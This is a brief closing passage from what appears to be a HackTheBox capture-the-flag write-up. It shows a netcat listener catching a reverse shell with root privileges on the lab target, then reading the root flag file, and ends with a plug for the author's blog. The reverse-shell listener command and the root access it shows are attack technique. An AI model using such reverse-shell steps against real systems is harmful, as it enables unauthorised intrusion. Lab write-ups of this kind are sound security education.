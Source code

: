 ```bash
┌──(alien0ne㉿kali)-[~]
└─$ nc -lvnp 1334
listening on [any] 1334 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.167.68] 56606
id    
uid=0(root) gid=0(root)
cd /root
wc -c root.txt
33 root.txt
```

Thanks for reading! Make sure you subscribe to the [blog](https://blog.alien0ne.me) for more upcoming HackTheBox writeups!